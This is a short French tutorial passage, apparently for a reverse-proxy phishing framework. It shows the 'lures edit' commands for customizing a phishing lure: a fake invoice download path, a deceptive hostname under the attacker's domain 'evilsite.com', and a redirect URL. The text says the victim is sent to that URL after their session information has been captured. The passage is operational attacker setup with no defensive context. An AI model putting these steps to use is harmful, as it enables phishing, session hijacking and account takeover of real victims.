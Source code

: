 Personnaliser un leurre 

```cs
lures edit <id> path <URI_PATH>
lures edit 0 path /download/invoice/00554/
```

Pour changer le nom d'hôte. Ce nom d'hôte doit toujours se terminer par le domaine configurer (evilsite.com)

```cs
lures edit 0 hostname this.is.a.real.website.evilsite.com
```

Ajouter une Redirection URL. c'est url qui sera ouvrer une fois que nous avons récupérer les informations de sessions de la victime.

```cs
lures edit 0 redirect_url https://otherwebsite.com
```
